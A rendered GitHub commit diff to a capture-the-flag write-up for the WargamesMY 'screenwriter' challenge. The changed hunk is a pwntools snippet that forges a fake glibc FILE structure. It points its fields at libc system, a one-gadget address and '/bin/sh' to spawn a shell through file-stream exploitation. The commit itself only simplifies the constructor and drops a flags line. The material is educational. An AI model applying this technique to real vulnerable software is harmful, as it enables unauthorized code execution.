

Before and after one commit to papichulo16/ctf-stuff, a Markdown page: WargamesMYCTF/screenwriter/writeup.md, the part around the change. Drawn GitHub-style.

````diff
--- a/WargamesMYCTF/screenwriter/writeup.md
+++ b/WargamesMYCTF/screenwriter/writeup.md
@@ -95,8 +95,7 @@ Next I  overwrote (is that how you say it??) the write file structure to point t
 Then I created a fake file structure while changing the `vtable` pointer to what angry-fsrop said:
 ``` python
 # create a fake file struct to use when calling the write stream
-    file = FileStructure(0)
-    file.flags = 0x3b01010101010101
+    file = FileStructure()
     file._IO_read_end = l.sym["system"] + libc
     file._IO_save_base = libc + 0x163830 # one gadget
     file._IO_write_end = u64(b"/bin/sh\x00")
````
